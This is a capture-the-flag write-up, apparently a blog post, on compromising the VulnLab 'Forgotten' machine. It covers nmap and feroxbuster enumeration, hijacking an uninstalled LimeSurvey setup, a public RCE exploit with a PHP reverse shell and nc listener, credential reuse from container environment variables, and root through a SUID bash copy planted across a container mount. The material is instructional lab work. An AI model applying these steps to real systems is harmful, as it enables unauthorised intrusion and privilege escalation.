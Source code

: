 ```yaml
---
title: VulnLab -- Forgotten Writeup
date: 2025-03-30 00:00:00 +0800
categories: [linux machine]
tags: [web exploitaion,cve]
image:
    path: /images/Forgotten-banner.png
---
```

# Forgotten

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Forgotten** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/forgotten-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 22,80 --min-rate=1000 10.10.120.62
```

![image.png](../images/forgotten.png)

now let’s check the website running on port 80.

![image.png](../images/forgotten%201.png)

and we got forbidden so let’s now fuzz for directories.

```bash
feroxbuster --url http://10.10.120.62/
```

![image.png](../images/forgotten%202.png)

we got an endpoint named survey so let’s go to the website and see it

![image.png](../images/forgotten%203.png)

as we see there is a website named LimeSurvey running on the port 80 so let’s search for a public exploit for it.

Now let’s try to install it.

![image.png](../images/forgotten%204.png)

notice that we need a database to complete the installation.

so let’s create a database using a docker container

```bash
sudo docker run --name limesurvey -e MYSQL_ROOT_PASSWORD=remoremo -e MYSQL_DATABASE=limesurvey -e MYSQL_USER=lime -e MYSQL_PASSWORD=remoremo -p 3306:3306 -d mysql:latest
```

![image.png](../images/forgotten%205.png)

now let’s try to connect to the database.

![image.png](../images/forgotten%206.png)

now let’s continue to the next step

![image.png](../images/forgotten%207.png)

now let’s populate the database and set the admin password to remoremo

![image.png](../images/forgotten%208.png)

now let’s login as the administrator

![image.png](../images/forgotten%209.png)

after we got everything ready let’s search for a CVE in limeSurvey

![image.png](../images/forgotten%2010.png)

and we got RCE let’s get it and edit the php reverse shell IP and port

![image.png](../images/forgotten%2011.png)

now let’s make this reverse shell as a zip file

```bash
zip N4s1rl1.zip config.xml revshell.php
```

![image.png](../images/forgotten%2012.png)

now let’s open a listener on our machine

```bash
nc -lvnp 1337
```

![image.png](../images/forgotten%2013.png)

Now let’s run our exploit.

```bash
python3 exploit.py http://10.10.120.62/survey admin remoremo 80
```

![image.png](../images/forgotten%2014.png)

now let’s check our listner

![image.png](../images/forgotten%2015.png)

now let’s type hostname to check the environment 

```bash
hostname
```

![image.png](../images/forgotten%2016.png)

and we are in a docker container so let’s run env

```bash
env
```

![image.png](../images/forgotten%2017.png)

and we found limesurvey password so let’s connect to the user limesvc via ssh 

```bash
ssh limesvc@10.10.120.62
```

![image.png](../images/forgotten%2018.png)

and we broke out of the container now let’s see the user flag.

![image.png](../images/forgotten%2019.png)

Now let’s go back to our container and switch to root.

![image.png](../images/forgotten%2020.png)

now in the container copy the bash and add the SUID binary to it.

```bash
cp /bin/bash .;chmod +s bash
```

![image.png](../images/forgotten%2021.png)

now let’s go back to the main host and list the container files.

```bash
cd /opt/limesurvey ; ls -las
```

![image.png](../images/forgotten%2022.png)

notice that we got a root with the SUID binary set to it so now let’s go and get root assess

```bash
./bash -p
```

![image.png](../images/forgotten%2023.png)

now let’s go to the root directory and list the flag

```bash
cd /root ; ls -las
```

![image.png](../images/forgotten%2024.png)

and I did it we got the root flag!

![image.png](../images/forgotten%2025.png)

That’s it for the **Forgotten** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX